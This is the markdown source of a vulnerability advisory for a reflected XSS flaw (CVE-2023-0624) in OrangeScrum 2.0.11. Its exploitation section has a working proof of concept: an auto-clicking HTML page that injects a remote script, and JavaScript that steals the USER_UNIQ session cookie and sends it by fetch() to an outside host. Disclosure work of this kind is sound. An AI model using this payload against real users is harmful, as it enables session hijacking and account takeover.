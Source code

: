 ```yaml
---
slug: advisories/oberhofer/
title: OrangeScrum 2.0.11 - Reflected XSS via filename
authors: Carlos Bello
writer: cbello
codename: oberhofer
product: OrangeScrum 2.0.11
date: 2023-02-13 12:00 COT
cveid: CVE-2023-0624
severity: 7.3
description: OrangeScrum 2.0.11 - Reflected Cross-Site Scripting via filename
keywords: Fluid Attacks, Security, Vulnerabilities, Orangescrum, XSS
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                         |
| --------------------- | ------------------------------------------------------- |
| **Name**              | OrangeScrum 2.0.11 - Reflected XSS via filename         |
| **Code name**         | [Oberhofer](https://en.wikipedia.org/wiki/Oberhofer)    |
| **Product**           | OrangeScrum                                             |
| **Affected versions** | 2.0.11                                                  |
| **State**             | Public                                                  |
| **Release Date**      | 2023-02-13                                              |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | -------------------------------------------------------------------------------------------------------|
| **Kind**              | Reflected cross-site scripting (XSS)                                                                   |
| **Rule**              | [008. Reflected cross-site scripting (XSS)](https://docs.fluidattacks.com/criteria/vulnerabilities/008)|
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:H/A:N                                                           |
| **CVSSv3 Base Score** | 7.3                                                                                                    |
| **Exploit available** | No                                                                                                     |
| **CVE ID(s)**         | [CVE-2023-0624](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0624)                          |

## Description

OrangeScrum version 2.0.11 allows an external attacker to obtain arbitrary
user accounts from the application. This is possible because the application
returns malicious user input in the response with the content-type set to
text/html.

## Vulnerability

This vulnerability occurs because the application returns malicious user input
in the response with the content-type set to text/html.

## Exploitation

To exploit this vulnerability, we only need to send the following malicious HTML
code to an application user.

### Exploit.html

```html
<!DOCTYPE html>
<html>
    <body>
        <a id="exploit" href="https://retr02332bughunter.orangescrum.com/defect/defects/download?filename=%3Cscript+type=%27text/javascript%27+src=%27https://retr02332.com/exploit-utils.js%27%3E%3C/script%3E"> Exploit</a>
        <script>
            document.getElementById("exploit").click();
        </script>
    </body>
</html>
```

The malicious JavaScript that we embed in the page is as follows.

### Exploit-utils.js

```js
function getCookie(name) {
    const value = `; ${document.cookie}`;
    const parts = value.split(`; ${name}=`);
    if (parts.length === 2) return parts.pop().split(';').shift();
}

let sessionCookie = `USER_UNIQ=${getCookie("USER_UNIQ")}`;

fetch("https://retr02332.com/leak?"+sessionCookie);
```

Thus, when the user clicks on the malicious link, it will send its session
cookie to the attacker's server logs.

## Evidence of exploitation

![vulnerability-orangescrum](https://user-images.githubusercontent.com/51862990/216176343-4430e676-1622-4af1-a866-3f773e6f6682.png)

![POC-XSS-OrangeScrum](https://user-images.githubusercontent.com/51862990/219088654-19f5e13c-908f-4db1-b458-c2e23783e92b.gif)

![cookie-leak-orangescrum](https://user-images.githubusercontent.com/51862990/216176496-96c7ad03-4a72-4eb3-adad-1f614f8ff508.png)

## Our security policy

We have reserved the ID CVE-2023-0624 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: OrangeScrum 2.0.11

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/Orangescrum/orangescrum/>

## Timeline

<time-lapse
  discovered="2023-02-07"
  contacted="2023-02-07"
  replied="2023-02-07"
  confirmed=""
  patched=""
  disclosure="2023-02-13">
</time-lapse>
